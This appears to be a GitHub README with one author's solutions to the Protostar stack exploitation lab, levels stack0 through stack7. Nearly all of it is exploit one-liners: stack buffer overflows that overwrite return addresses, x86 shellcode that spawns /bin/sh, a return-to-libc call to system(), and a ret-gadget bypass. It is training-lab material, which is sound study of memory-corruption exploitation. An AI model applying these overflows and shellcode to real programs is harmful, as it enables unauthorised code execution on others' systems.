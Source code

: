# Protostar
My solution to exploit exercises' Protostar challenge.
I try to have one liners when possible.

# Stack 0
```sh
python -c "print('a'*65)" | ./stack0
```

# Stack 1
```sh
./stack1 `python -c "from struct import pack; print('a'*64+pack('<I', 0x61626364))"`
```

# Stack 2
```sh
GREENIE=`python -c "from struct import pack; print('a'*64+pack('<I', 0x0d0a0d0a))"` ./stack2
```

# Stack 3
```sh
python -c "from struct import pack; print('a'*64+pack('<I', 0x8048424))" | ./stack3
```

# Stack 4
```sh
python -c "from struct import pack; print('a'*76+pack('<I', 0x80483f4))" | ./stack4
```

# Stack 5
This one is not a one liner because I decided to put the shellcode in an environment variable.
`envaddr` was compiled using the source in this repo and is used to guess the shellcode adress.
```sh
export SC=`python -c "print('\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80')"`
~/envadrr SC ./stack5
python -c "from struct import pack; print('a'*76+pack('<I', 0xbfffff13))" | ./stack5
```

# Stack 6
For this one I used a return to libc in `system` after putting the adress of $SHELL as the first parameter.
`0xb7ecffb0` is the adress of `sytem()` obtained using GDB and `0xbfffff13` is the adress of $SHELL obtained using `envaddr`
```sh
python -c "from struct import pack; print('a'*80+pack('<II', 0xb7ecffb0, 0xbfffff13))" | ./stack6
```

# Stack 7
Stack 7 is a bit harder because we cannot use the previous trick because the return adress is checked and cannot be in a data region...
Instead we will find a `ret` instruction and return to it, introduction one indirection.
This `ret` instruction will be used to jump to the shellcode we used in stack 5.

Finding the instruction : `objdump -d stack7 | grep ret`

Exploit:
```
python -c "from struct import pack; print('a'*80+pack('<II', 0x80484c2, 0xbfffff13))" | ./stack7
```

